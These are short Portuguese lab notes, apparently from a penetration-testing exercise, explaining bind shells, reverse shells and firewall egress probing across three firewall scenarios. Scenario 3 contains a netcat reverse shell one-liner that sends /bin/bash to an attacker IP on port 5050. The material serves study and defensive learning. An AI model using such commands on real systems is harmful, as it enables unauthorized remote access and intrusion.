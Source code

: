 Cenário 2
	Em um servidor com firewall mal configurado é possivel fazer um portscan e verificar quais portas estão com serviços ativos.
	No caso do cenário 1 o servidor tem 4 portas abertas mas 3 estão com serviços ativos e uma está com serviço desativado, nessas portas com serviços ativos não é possivel fazer um bind shell pois a porta já está em uso, porem a ultima porta não está sendo usada, logo é possivel abrir a porta com o netcat e fazer um binshell mandando o bash na porta não usada.

Cenário 3
	O servidor tem um firewall bem configurado e bloqueia qualquer trafego de entrada, logo mesmo que eu abra uma porta eu não consigo me conectar a ela, mas é possivel fazer um Revese Shell onde eu abro a porta 5050 na minha maquina e no servidor com o firewall eu me conecto a porta mandando o /bin/bash pelo netcat( nc -vn 172.20.1.77 5050 -e /bin/bash )

Cenário 4
	O firewall mais restritivo não permite trafego de entrada nem de saida, logo não funciona bindshell nem reverse shell. Foi criado um script que abre varias portas no servidor com o firewall e na maquina do atacante foi criado outro script que tenta conectar em cada porta aberta no servidor e retornar só as portas que foram feito a conexão para saber quais portas permitem acesso. dessa forma é possivel saber qual porta o firewall permite trafego para fazer um reverse shell.
	 Em casos avançados os scripts podem ser feitos para testar todos os tipos de conexões como tcp, udp, icmp e tudo que pode permitir saida.
	 